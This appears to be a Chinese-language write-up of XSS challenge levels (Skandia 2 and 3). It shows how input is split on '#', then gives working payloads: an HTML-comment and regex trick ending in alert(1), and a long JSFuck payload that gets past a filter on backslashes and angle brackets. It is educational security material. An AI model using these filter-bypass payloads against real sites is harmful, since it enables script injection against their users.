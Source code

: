 根据`#`分割，随便输入点东西看看

输入`123#456`

输出`<script>console.log("123")</script><script>console.log("456")</script>`

可以利用`<!--<script>#-->`

输入`<!--<script>#-->`

输出`<script>console.log("<!--<script>")</script><script>console.log("-->")</script>`

Console output `Error: Uncaught SyntaxError: Invalid regular expression: missing /`

报错正则表达式少了个/

说明`/script><script>console.log("`被当作了正则表达式

所以需要使/和括号成对出现

Payload

```
<!--<script>#)/;alert(1)//-->
```

Output

```
<script>console.log("<!--<script>")</script><script>console.log(")/;alert(1)//-->")</script>
```

Console output

```
<!--<script>
```



## Skandia 3

```
function escape(s) {
  if (/[\\<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

和Skandia 2相比多过滤了反斜杠

但是jsfuck依然可用

Payload

```
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//
```
